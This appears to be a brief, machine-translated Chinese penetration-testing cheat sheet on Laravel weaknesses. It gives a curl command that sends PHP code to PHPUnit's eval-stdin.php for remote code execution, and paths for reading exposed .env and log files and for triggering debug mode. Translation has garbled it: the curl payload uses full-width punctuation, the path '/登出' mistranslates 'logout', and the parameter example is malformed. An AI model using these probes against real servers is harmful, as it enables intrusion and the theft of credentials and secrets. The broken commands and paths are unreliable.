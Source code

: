 ### laravel框架中的常见错误
1. Laravel PHPUnit远程代码执行
* 完整路径利用：http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
* 受影响的版本：4.8.28之前的版本和5.6.3之前的5.x

**命令**
```
curl -d“ <？php echo php_uname（）;？>” http://target.com/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```

2.暴露的环境变量 
* 完整路径利用：http://target.com/.env


3.公开的日志文件
* 完整路径利用：http://target.com/storage/logs/laravel.log

4.启用Laravel调试模式
* 在GET或POST方法中使用SQL注入查询
* 尝试路径/登出（例如：target.com/登出）
* 在参数中使用[]（例如：target.com/param [] = 0）


